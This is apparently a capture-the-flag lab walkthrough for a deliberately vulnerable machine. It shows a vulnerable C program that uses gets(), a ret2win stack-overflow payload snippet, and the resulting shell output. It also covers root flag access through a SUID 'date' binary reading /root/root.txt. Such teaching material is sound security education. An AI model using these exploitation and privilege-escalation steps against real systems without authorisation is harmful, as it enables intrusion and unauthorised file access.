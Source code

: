 ## A Note On Available Files

This machine uses a custom binary exploitation challenge to allow users to gain user access to the machine. It is recommended that the learner have access to at least the greeting binary in order to reverse engineer it and write an appropriate exploit, but beginners could also be provided with the greeting.c source code to make the process easier.

Students should not view or use exploit.py unless they have consciously decided to start looking at answers.

We would also strongly recommend the use of pwntools, which is a python3 library that can be imported with a simple ``` pip install python3 ``` (some systems may now recommend pipx).

## User Access

To begin with, we can conduct an nmap scan of the machine once the run.sh script has fully provisioned it. This shows a service running on port 4444, which is relatively non-standard:

```
nmap 192.168.56.33
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-14 12:58 EST
Nmap scan report for 192.168.56.33
Host is up (0.0020s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
4444/tcp open  krb524

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds

```
If we simply connect to the service over netcat, we can see that this seems to be a very simple binary that takes user input and prints it back out to the console.
```
knittingirl@knittingirl-OptiPlex-7060:~$ nc 192.168.56.33 4444
aaaaaaaaaaaaaaaaaaaaaa
Hi! What's your name?

Nice to meet you aaaaaaaaaaaaaaaaaaaaaa
```
If we look at the source code, we can see that there is a very clear path of attack. The program includes a win function that is not normally used by the binary and will spawn a shell, and it also takes input from the user using the "gets" function. Programmers are strongly recommended against using this function since it allows users to read in input of an unlimited length, causing a buffer overflow. In this specific scenario, since the program is reading a string into the buf variable on the stack, a stack overflow is present, and the user can overwrite values higher up on the stack than buf. In particular, the return pointer is stored higher up on the stack, which controls where the program starts executing after the current function completes. If we can set that return address to the win function, we will be able to get a shell (Note: since this is a simple program, you could derive very similar information by decompiling the executable in a reverse engineering tool like Ghidra).

```
#include <stdio.h>
int win(){
	puts("You shouldn't be here");
	system("/bin/sh");
}

int main() {
	char buf [64];
	puts("Hi! What's your name?\n");
	gets(buf);
	printf("Nice to meet you %s\n", buf);
	return 0;
}
```
Two of the main protections that could make this plan of attack harder would be the presence of a canary, which detects stack overflows if they start to approach the return pointer, and PIE, which randomizes addresses in the code section and would make accurately jumping to the win function difficult. Neither are present in this case, which can be checked with the checksec program that ships with pwntools.

```
checksec greeting
[*] '/home/knittingirl/Desktop/CyberCompetition-Example-Labs/Pwnable_Linux/greeting'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Note: If this explanation is going to fast, here is an older writeup that Caitlin did on a similar challenge [chainmail]<https://github.com/knittingirl/CTF-Writeups/tree/7a329583754b617db407c4262b93ba9422ccee25/pwn_challs/UIUCTF23/Chainmail> 

The exploit, then, has two main components. You first determine the required length of the buffer before the return address; you could do this by simply taking the length of the buf variable, adding 8 to account for the base point to get 72, or you can use the pwntools cyclic string approach set a breakpoint in a debugger at the point where the return address is overwritten, and taking note of that location in the cyclic string. 

You then overwrite the return address. This binary has a stack alignment issue so you cannot jump directly to the win function. The exploit.py example inserts a consequence-free ret instruction to pad the buffer out to a length divisible by 16; an alternative approach would be to jump in part-way through the win instruction in order to sidestep the issue, i.e.:
```
payload = padding  
payload += p64(elf.sym['win']+8)
```
Whatever the approach, once you write and run a working exploit, you get a user shell:
```
python3 exploit.py 
[*] '/home/knittingirl/Desktop/CyberCompetition-Example-Labs/Pwnable_Linux/greeting'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to 192.168.56.33 on port 4444: Done
[*] Switching to interactive mode
$ whoami
greeting_user
$ cat flag.txt
flag{pwn_challs_are_fun}
```

## Root Access

There is also a root-only flag on this machine that cannot be accessed solely by completing the previous step. Within the shell obtained previously, you can search for binaries with the SUID bit set:
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/date
/usr/bin/su
/usr/bin/pkexec
/usr/bin/at
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/sudo
/usr/bin/chfn
```
While most of these binaries are normally SUID, date is not. If we look at the website [GTFObins]<https://gtfobins.github.io/gtfobins/date/>, we can see that date has an entry to allow arbitrary file read in such cases. As a result, we can perform the suggestion on that page to get an arbitrary file read on the expected location of the root flag; please note that this shell does not ordinarily display STDERR output, which is how the flag is displayed in this case, so we redirect STDERR to STDOUT in order to view the file correctly.
```
$ LFILE=/root/root.txt
$ date -f $LFILE 2>&1
date: invalid date ‘flag{suid_bit_works_on_dates}’
```
This is the end of activities for this machine.
